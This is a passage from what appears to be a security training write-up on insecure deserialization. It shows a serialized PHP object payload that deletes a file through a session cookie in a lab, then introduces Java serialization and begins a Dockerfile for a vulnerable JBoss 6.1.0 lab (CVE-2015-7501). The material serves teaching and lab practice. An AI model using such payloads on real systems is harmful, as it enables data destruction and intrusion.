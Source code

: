 ```bash
bash exploit.php
O:14:"CustomTemplate":1:{s:14:"lock_file_path";s:23:"/home/carlos/morale.txt";}
```
- Encode it with Base64 encoder and replace it to the session cookie.
![image](https://user-images.githubusercontent.com/47778874/227762135-3fe689bb-10cf-4a70-bca3-6c8b0a1b4d00.png)
![image](https://user-images.githubusercontent.com/47778874/227762222-46fee191-33bf-4b8e-895c-03200cdf414b.png)
- The file will be deleted and the lab will be solved.
![image](https://user-images.githubusercontent.com/47778874/227762210-07492b3c-18b3-45d4-910f-1fe6f642dedb.png)

### Deserialization on Java
Serialization is performed under java in **java.io** package which includes
- **java.io.serializable**
- **java.io.Externalizable**
- **ObjectInputStream**
- **ObjectOutputStream**

**ObjectOutputStream Class**
- It is used to write object states to the file. An object that implements **java.io.Serializable** interface can be written to strams. It provides various methods to perform serialization.
- The **writeObject()** method of **ObjectOutputStream** class serializes an object and send it to the output stream
```java
public final void writeObject(object x) throws IOException
```

**ObjectInputStream Class**
- An ObjectInputStream deserializes objects and primitive data written using an ObjectOutputStream.
- The **readObject()** method of **ObjectInputStream** class references object out of stream and deserialize it.
```java
public final Object readObject() throws IOException,ClassNotFoundException
```
You can learn about [Java Serialization and Deserialization more here.](https://www.studytonight.com/java/serialization-and-deserialization.php)

For a lab demonstration, we will be exploiting the [Insecure Deserialization on JBoss 6.1.0 CVE-2015-7501](https://www.rapid7.com/db/vulnerabilities/red_hat-jboss_eap-cve-2015-7501/).
- To build the lab, we have to use the docker build. Save below configurations on a Dockerfile.

```bash
mkdir java-desc
cd java-desc
vim Dockerfile
```

```dockerfile
FROM jboss/base:latest
EXPOSE 8080

ENV SERVER_HOME /opt/jboss/server/
ENV JBOSS_HOME /opt/jboss/server/jboss-6.1.0.Final/

USER root

RUN mkdir $SERVER_HOME

RUN cd $SERVER_HOME \
    && curl -O https://download.jboss.org/jbossas/6.1/jboss-as-distribution-6.1.0.Final.zip \
    && unzip jboss-as-distribution-6.1.0.Final.zip \
    && curl -O https://download.java.net/openjdk/jdk7u75/ri/jdk_ri-7u75-b13-linux-x64-18_dec_2014.tar.gz \
    && tar xfz jdk_ri-7u75-b13-linux-x64-18_dec_2014.tar.gz \
    && rm jdk_ri-7u75-b13-linux-x64-18_dec_2014.tar.gz \
    && rm jboss-as-distribution-6.1.0.Final.zip

```